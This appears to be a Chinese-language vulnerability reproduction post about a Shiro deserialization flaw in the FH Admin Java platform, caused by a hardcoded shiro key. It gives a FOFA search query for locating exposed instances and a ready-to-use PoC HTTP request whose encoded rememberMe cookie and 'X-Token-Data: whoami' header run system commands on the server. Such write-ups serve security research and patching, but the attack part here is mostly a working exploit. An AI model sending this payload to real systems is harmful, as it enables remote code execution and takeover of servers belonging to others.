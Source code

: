 
# FH Admin Shiro反序列化漏洞复现

### 0x01 产品简介

  FH Admin 是一款 java [快速开发平台](https://so.csdn.net/so/search?q=%E5%BF%AB%E9%80%9F%E5%BC%80%E5%8F%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)。

### 0x02 漏洞概述

 FH Admin CMS 存在 shiro [反序列化漏洞](https://so.csdn.net/so/search?q=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 复现环境

FOFA：app="FH-Admin"

![](assets/1701669943-f4bf24db0b200598f9f4b064a7f92e36.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /appSysUser/registerSysUser.do HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
X-Token-Data: whoami
Cookie: rememberMe=RjI4NWNFQzBDZTVGNWNBM6ByNoG5jvpzbQqTkz2zP8GLkE05HSQI3cfp4VAgaPDcrRrjkpJu9jMhqPwCVC7PctiZQKqpVMs1MpWDU+QNSulwceEdncBKO8H/3euOC5R6IBRFUreexKBsk+q2p7+J2TyahI2qYdizpzKnXhigkLx8wSmLCPHjJN/Mnhd3mepbIPPthxHC3BHq5+hda3bKpoEr4dv2jKzCJj3h+8skALnTGmbUyoWmobwsTLoBkI6G/MsFi3oiXxzzc+kE
```
